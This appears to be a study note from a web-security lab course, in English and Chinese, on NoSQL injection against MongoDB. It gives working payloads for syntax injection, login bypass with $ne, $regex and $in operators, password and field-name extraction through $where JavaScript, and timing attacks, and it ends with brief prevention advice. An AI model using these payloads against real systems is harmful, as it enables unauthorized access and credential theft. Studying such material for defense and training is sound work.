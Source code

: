 ## NoSQL injection
- MongoDB
-  JSON 查詢
  
- **Syntax injection**
    - 注入您自己的有效載荷
    - 提交模糊字串和特殊字符
 
- **Operator injection**
    - 使用 NoSQL 查詢運算子

**Example :**
- https://insecure-website.com/product/lookup?category=fizzy
- this.category == 'fizzy'
- this.category == '\"`{\r;$Foo}\n$Foo \\xYZ\u0000
- https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00

## Syntax injection
### 查詢哪些字元會被應用程式解釋為語法
- 注入單一字元 [`] : this.category == '''
  - 如果這導致原始回應發生變化，則可能表示該'字元破壞了查詢語法並導致了語法錯誤
  - Retest : this.category == '\''
 
### 確認條件行為
- 假 : ' && 0 && 'x (lookup?category=fizzy'+%26%26+0+%26%26+'x)
- 真 : ' && 1 && 'x (lookup?category=fizzy'+%26%26+1+%26%26+'x)
- 真 JavaScript 條件，例如 '||'1'=='1 (this.category == 'fizzy'||'1'=='1')

### Attack 
- 新增一個空字元 : %00
  - https://insecure-website.com/product/lookup?category=fizzy'%00
  - this.category == 'fizzy'\u0000' && this.released == 1

### Lab: Detecting NoSQL injection
- Ctrl U = url encode
- 有效負載: Gifts'+'
- 布林條件: Gifts' && 0 && 'x | Gifts' && 1 && 'x
- Gifts'||1||'

## Operator injection
### 運算符
- $where- 符合滿足 JavaScript 表達式的文件
- $ne- 符合所有不等於指定值的值
- $in- 符合數組中指定的所有值
- $regex- 選擇值與指定正規表示式相符的文件 <br>

**Method :**
- 巢狀物件插入 :{"username":{"$ne":"invalid"}}
-  URL 的輸入: username[$ne]=invalid
-  將請求方法從 轉換GET為POST。
-  將標題更改Content-Type為application/json。
-  將 JSON 新增到訊息正文。
-  在 JSON 中註入查詢運算 <br>

**Example :**
- {"username":"wiener","password":"peter"}
- {"username":{"$ne":"invalid"},"password":"peter"}
- {"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
- {"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

### Lab: Exploiting NoSQL operator injection to bypass authentication
- {"username":"wiener"}
- {"username":{"$ne":""}}
- {"username":{"$regex":"wien.*"}}
- {"username":{"$ne":""},"password":{"$ne":""}}
- {"username":{"$regex":"admin.*"},"password":{"$ne":""}}

## Exploiting syntax injection to extract data
-  MongoDB 的$where運算子和mapReduce()函數。
-  將 JavaScript 函數注入查詢
-  **$where**
    - {"$where":"this.username == 'admin'"}
    - "admin' && this.password[0] == 'a' || 'a'=='b"
    - match() : "admin' && this.password.match(/\d/) || 'a'=='b"

### 識別 MongoDB 資料庫有效字段
  - password字段:lookup?username=admin'+%26%26+this.password!%3d'
  - admin' && this.username!='
  - admin' && this.foo!='
  - 執行字典攻擊
### Lab: Exploiting NoSQL injection to extract data
(*URL 編碼Ctrl-U*)
- try get passwords 
- GET /user/lookup?user=wiener
- 有效的 JavaScript 負載 : wiener'+'
- wiener' && '1'=='2 : should return could not found 
- wiener' && '1'=='1
- administrator' && this.password.length < 30 || 'a'=='b
- administrator' && this.password.length < 8 || 'a'=='b
- Intruder : administrator' && this.password[§0§]=='§a§
  - Payloads : 0-9 / a-z
  - Length : 為密碼的每個字元添加 0 到 7 之間的數字

## Exploiting NoSQL operator injection to extract data
- POST | 將$where運算子新增為附加參數
- false : {"username":"wiener","password":"peter", "$where":"0"}
- true  : {"username":"wiener","password":"peter", "$where":"1"}
- keys()方法提取資料欄位的名稱
  - "$where":"Object.keys(this)[0].match('^.{0}a.*')"
  - 逐個字元地提取欄位名稱
- $regex運算符
  - {"username":"myuser","password":"mypass"}
  - {"username":"admin","password":{"$regex":"^.*"}}
  - {"username":"admin","password":{"$regex":"^a*"}}
### Lab: Exploiting NoSQL operator injection to extract unknown fields
- test is that have no sql 
  - "invalid" --> {"$ne":"invalid"}
- test $where
  - test T/F
    - 在 JSON 資料中新增"$where": "0"
    - {"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
    - "$where": "0" -->  "$where": "1"
  - get key() 
    - "$where":"Object.keys(this)[1].match('^.{}.*')"
    - "$where":"Object.keys(this)[1].match('^.{§§}§§.*')"
  - Payload 0-20 : a-z、A-Z、0-9
    -   "$where":"Object.keys(this)[2].match('^.{}.*')"
-   GET /forgot-password?YOURTOKENNAME=TOKENVALUE

## Timing based injection
- 有時觸發資料庫錯誤不會導致應用程式回應發生變化
- 故意延遲 : {"$where": "sleep(5000)"}
- 如果密碼包含字母 a
  - admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
  - admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
 
## Preventing NoSQL injection
- 使用可接受字元的允許清單來清理和驗證使用者輸入。
- 使用參數化查詢插入使用者輸入，而不是將使用者輸入直接連接到查詢。
- 為了防止操作員注入，請套用可接受金鑰的允許清單。

